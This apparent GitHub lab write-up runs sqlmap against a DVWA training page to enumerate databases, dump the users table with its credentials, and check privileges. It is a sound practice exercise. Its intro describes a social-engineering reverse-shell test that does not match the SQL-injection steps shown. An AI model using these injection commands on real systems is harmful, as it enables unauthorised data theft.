 # Hacking-a-SQL-database

<h1>Phase 6</h1>

Structureality is concerned about their susceptibility to soical engineering attacks and have given approval to test their personnel. I will perform a simulated social engineering attack against their employee using the Social Engineering Toolkit (SET). The goal is to trick a victim into running a malicious payload which will result in a reverse shell being established between the victim and the attacker systems.

**<p style="font-size: 15px;">Step 1: Use SQLMAP to Hack a Database.</p>**

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0e947fc3-fdfb-411d-94d9-fc5a8c4bb8d3)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/518e491c-323a-46a3-aa3d-064096cf94cc)

http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Sumbit#

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/571ee018-082e-4ec6-950c-d46c22ddadf6)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/6ca88886-97c0-4483-a0de-d92e5196c681)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -b

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/94178e4f-61c9-45e5-a2f8-7e8035d4e460)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/86db4444-3ff1-4d4e-ac40-bddba9bbdd5f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --dbs

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/ec943912-4e45-49aa-add6-5046d2755a56)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/58bcf6dd-7fb7-4681-b404-15f0f518277b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa --tables

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a2c2528f-10a7-44e7-b62a-41ad2fe0210a)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/127762ab-16fc-44ca-bac9-d8196bfdbd8b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --columns

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/372092ec-e998-4701-b5c9-ec73ddd48791)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/e7b7d9da-1242-4681-92a9-051dc66cc9e5)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -D dvwa -T users --dump

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/b365aada-3774-42c7-8a49-52f422fd4d60)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/dfa4b8d8-16e3-438f-89ba-ee19279ff46f)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/a4a0c3c0-175e-47b1-b2d8-c2e0b68189cf)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --hostname

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/31510a64-d852-4663-bdc2-3578d678c9b8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/de705765-6ad0-4259-8c3e-9e2ecfb1b96f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-user

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/8f3d546b-21ba-4ace-881b-5ee2ca9b6071)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/30eee76f-dd30-4f3e-90e5-d5e31233c74b)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --current-db

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/c7164227-f46a-4082-ab2f-e6a60bc058ce)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/0c7df860-8454-44d6-b801-0b203c16777f)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" --privileges --roles --is-dba

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/f1d7b932-0c0f-46a4-bee2-ba09b0d00bb8)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/1f3eb4f5-0ccc-4bbf-88d2-2eb6f7768f72)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/76693b60-f298-4a2d-ac92-b6002325bcd5)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/d6adb983-0a42-447c-8abc-384a88ae8070)

sqlmap -u 'http://dvwa.structureality.com/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie="PHPSESSID=7sn493728m0g341pk94b5aq9bg; security=low" -crawl=3

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/33a8e2a0-63b5-4eb6-bf9c-757226a01fd7)

![image](https://github.com/kvweldon/Hacking-a-SQL-database/assets/141193154/61f89795-22df-4ca6-afb0-0d57bd62d122)




























